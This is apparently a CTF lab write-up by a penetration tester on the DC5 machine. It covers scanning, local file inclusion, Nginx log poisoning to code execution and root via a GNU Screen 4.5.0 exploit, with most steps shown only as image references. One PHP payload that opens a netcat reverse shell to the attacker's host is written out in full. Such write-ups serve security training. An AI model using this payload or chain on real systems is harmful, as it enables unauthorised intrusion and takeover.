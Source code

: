 # DC5 Offensive Security Community Writeup
## Level: `Intermediate` | OS: `Linux`

![logo](1.png)

## Scanning
We launch **nmap** with scripts and software versions on all ports.

![](2.png)

## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.

![](3.png)

We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.

![](4.png)

If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).

![](5.png)

We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.

![](6.png)

Yes, it is vulnerable to local file inclusion (LFI).

![](7.png)

Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.

![](9.png)

## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)
![](10.png)

#### Result testing Remote Code Execute (RCE)
![](11.png)

Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

#### PoC Log Poisoning + RCE
![](12.png)

#### Result PoC Log Poisoning + RCE
![](13.png)

Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

We read the flag of *user.txt*.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code
![](14.png)

#### Result reverse shell code
![](15.png)

## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.

![](16.png)

This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.
![](17.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
